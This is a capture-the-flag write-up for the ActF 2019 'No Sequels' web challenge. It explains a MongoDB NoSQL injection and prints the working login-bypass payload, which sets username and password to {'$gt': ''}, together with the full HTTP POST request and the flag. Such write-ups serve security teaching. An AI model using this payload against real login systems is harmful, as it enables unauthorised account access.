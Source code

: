 # No Sequels
Web (50 points, 317 solves)

## Challenge 

The prequels sucked, and the sequels aren't much better, but at least we always have the [original trilogy](https://nosequels.2019.chall.actf.co/).

Author: Sirlan

## Hint

MongoDB is a safer alternative to SQL, right?

## Solution

This looks like a standard SQL injection problem, except this site uses MongoDB instead. But, it looks like the query parameters `username` and `password` are fed directly into `db.collection('users').findOne()`. This means we can send JSON for those parameters and they'll be sent to the database. So, what can we do with JSON?

MongoDB has several comparators (like SQL's ">"). For example, the [greater-than comparator](https://docs.mongodb.com/manual/reference/operator/query/gt/) has this syntax:

```json
{field: {$gt: value}}
```

So how can we leverage this? Well, we can ask for a username that is greater than an empty string, which is always true. So, our payload will look like this:

```json
{
   "username": {"$gt": ""},
   "password": {"$gt": ""}
}
```

Sending this off with [Insomnia](https://insomnia.rest/) gives us the flag. 

```
> POST /login HTTP/1.1
> Host: nosequels.2019.chall.actf.co
> User-Agent: insomnia/6.4.0
> Cookie: token=eyJhbG...
> Content-Type: application/json
> Accept: */*
> Content-Length: 54

| {
| 	"username": {"$gt": ""},
| 	"password": {"$gt": ""}
| }
```

## Flag

```
actf{no_sql_doesn't_mean_no_vuln}
```
